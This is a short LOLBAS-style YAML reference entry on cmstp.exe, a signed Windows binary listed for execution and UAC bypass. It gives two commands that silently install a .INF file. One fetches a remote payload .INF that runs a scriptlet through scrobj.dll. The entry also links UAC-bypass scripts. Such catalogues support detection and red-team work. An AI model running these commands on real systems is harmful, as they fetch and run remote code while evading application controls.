 ```yaml
---
Name: Cmstp.exe
Description: Execute, UACBypass
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: cmstp.exe /ni /s c:\cmstp\CorpVPN.inf
    Description: Silently installs a specially formatted local .INF without creating a desktop icon. The .INF file contains a UnRegisterOCXSection section which executes a .SCT file using scrobj.dll.
  - Command: cmstp.exe /ni /s https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Cmstp.inf
    Description: Silently installs a specially formatted remote .INF without creating a desktop icon. The .INF file contains a UnRegisterOCXSection section which executes a .SCT file using scrobj.dll.
Full Path:
  - C:\Windows\system32\cmstp.exe
  - C:\Windows\sysWOW64\cmstp.exe
Code Sample: []
Detection: []
Resources:
  - https://twitter.com/NickTyrer/status/958450014111633408
  - https://gist.github.com/NickTyrer/bbd10d20a5bb78f64a9d13f399ea0f80
  - https://gist.github.com/api0cradle/cf36fd40fa991c3a6f7755d1810cc61e
  - https://oddvar.moe/2017/08/15/research-on-cmstp-exe/
  - https://gist.githubusercontent.com/tylerapplebaum/ae8cb38ed8314518d95b2e32a6f0d3f1/raw/3127ba7453a6f6d294cd422386cae1a5a2791d71/UACBypassCMSTP.ps1
    (UAC Bypass)
  - https://github.com/hfiref0x/UACME
Notes: Thanks to Oddvar Moe - @oddvarmoe, Nick Tyrer - @NickTyrer
---
```

